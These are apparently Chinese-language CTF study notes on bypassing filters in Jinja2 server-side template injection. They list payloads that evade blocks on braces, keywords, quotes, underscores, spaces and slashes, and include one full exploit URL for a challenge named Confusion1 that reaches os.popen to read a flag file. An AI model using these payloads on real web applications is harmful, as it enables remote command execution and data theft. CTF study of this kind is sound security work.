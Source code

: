 - # 常见绕过手法
	- `{{`
		- `{% if ... %}1{% endif %}`
		- `︸` #CTF/Unicode
			- [参考](https://blog.csdn.net/rfrder/article/details/115272645)
			- [更多字符](https://www.compart.com/en/unicode/U+FE38)
	- 关键字
		- `{{""["\x5f\x5fclass\x5f\x5f"]}}`
	- 引号
		- `(app.__doc__|list()).pop(102)|string()`
		- `dict(buil=aa,tins=dd)|join()`
		- `["a"]`可以用`[a]`代替？
	- `+`
		- `~`
		- `__add__`
		- `"a""b"`
	- 下划线
		- `config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3)`
		- `lipsum|escape|batch(22)|list|first|last`
	- 空格
		- `config|string()|list()|attr(dict(p=aa,op=bb)|join())(7)`
	- 斜杠
		- `config|string()|list()|attr(dict(p=aa,op=bb)|join())(279)`
- # 利用 request 对象绕过
	- 题目: Confusion1
	- ```
	  http://111.200.241.244:59576/a.php/{{''[request.args.clas][request.args.mo][2][request.args.sub]()[230][request.args.in][request.args.g1+request.args.g2][request.args.o+request.args.s][request.args.po+request.args.pen](request.args.cmon)[request.args.re+request.args.ad]()}}
	  ?clas=__class__
	  &mo=__mro__
	  &sub=__subclasses__
	  &in=__init__
	  &g1=__global
	  &g2=s__
	  &po=po
	  &pen=pen
	  &o=o
	  &s=s
	  &re=re
	  &ad=ad
	  &cmon=c'at' /opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt
	  ```